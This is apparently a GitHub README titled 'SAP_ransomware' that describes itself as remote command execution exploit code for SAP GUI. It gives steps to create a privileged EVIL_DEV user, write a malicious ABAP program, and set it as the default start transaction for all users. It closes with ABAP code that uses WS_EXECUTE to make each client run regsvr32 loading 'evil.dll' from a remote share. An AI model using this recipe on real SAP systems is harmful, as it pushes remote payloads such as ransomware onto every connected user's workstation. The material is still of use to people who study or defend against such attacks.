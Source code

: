 # SAP_ransomware
Simple remote command execution exploit code for SAP GUI
First of all need to create a malicious ABAP program on SAP NetWeaver AS ABAP

1) First of all, to get RCE on a client’s computer, it is necessary to create a user with developer rights. The user SAP* cannot create or change any programs. To do this, run transaction su01 and  create a new user with SAP_ALL rights under login EVIL_DEV.
![](https://github.com/vah13/SAP_ransomware/blob/master/img/1.png)

2) Then, login as the EVIL_DEV user, run transaction se38 and create a program sap_malware_prog.
![](https://github.com/vah13/SAP_ransomware/blob/master/img/2.png)

3) Then when we are able to create a program, we click the Insert button, then copy a program, which executes malicious functionality, then save all and activate the program.
![](https://github.com/vah13/SAP_ransomware/blob/master/img/3.png)

4) Create custom transaction with se93
![](https://github.com/vah13/SAP_ransomware/blob/master/img/4.png)

5) Connect custom transaction to malware program
![](https://github.com/vah13/SAP_ransomware/blob/master/img/5.png)

6) Set mlauncher transaction by default 
![](https://github.com/vah13/SAP_ransomware/blob/master/img/6.png)

7) The screenshot shows that we set start transaction – mlauncher for all users. 
![](https://github.com/vah13/SAP_ransomware/blob/master/img/7.png)
![](https://github.com/vah13/SAP_ransomware/blob/master/img/8.png)
![](https://github.com/vah13/SAP_ransomware/blob/master/img/9.png)

## ABAP code for execute any command in SAP clients hosts
```
CALL FUNCTION 'WS_EXECUTE'
       EXPORTING
            program = 'c:\Windows\System32\regsvr32.exe'
            commandline     = '/i /s \\REMOTE_FOLDER\tmp\evil.dll'
            INFORM         = ''
           EXCEPTIONS
                  FRONTEND_ERROR        = 1
                  NO_BATCH                 = 2
                  PROG_NOT_FOUND           = 3
                  ILLEGAL_OPTION           = 4
                  GUI_REFUSE_EXECUTE       = 5
                  OTHERS                   = 6.
  ```
  
  
